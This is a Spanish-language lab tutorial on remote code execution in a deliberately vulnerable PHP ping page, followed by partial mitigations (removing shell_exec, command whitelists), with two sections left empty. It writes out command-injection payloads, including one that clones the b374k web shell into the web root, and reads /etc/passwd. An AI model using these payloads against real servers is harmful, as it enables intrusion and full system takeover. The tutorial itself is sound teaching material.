# Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Indice
> 1. [Creación de página vulnerable a RCE](#)
> 2. [Mitigaciones de RCE](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.1 [Eliminar el uso de shell_exec()](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.2 [Listas blancas](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.3 [Ejecutar Comandos con Escapes Seguros](#)
> &nbsp;&nbsp;&nbsp;&nbsp;2.4 [Prueba final](#)

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:



El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:



Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:



Ahora vamos a listar archivos:



Vamos a leer el contenido de ***/etc/passwd***:



Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:





Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


Creamos el siguiente archivo llamado [rce2.php](./Recursos/rce2.php) que espera recibir un comando por parámetro por url:




### Eliminar el uso de shell_exec()

Una forma de mitigación es eliminar la posibilidad de ejecutar comandos eliminando ***shell_exec()***, para ello creamos el archivo [rce3.php](./Recursos/rce3.php):



Los beneficios de eliminar *shell_exec()* son:

+ Bloquea cualquier intento de ejecución de código en el sistema.
+ Evita ataques RCE de forma definitiva.
+ No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

### Listas blancas

También podemos hacer uso de listas blancas si necesitamos hacer uso de algunos comandos:

Creamos un fichero [rce4.php](./Recursos/rce4.php) con los comandos permitidos '***ls***', '***whoami***' y '***pwd***':



Si probamos a pasarle un comando de los permitidos funciona:



En cambio, si introducimos un comando no permitido, nos indica que el comando no esta permitido;



### Ejecutar Comandos con Escapes Seguros


### Prueba Final
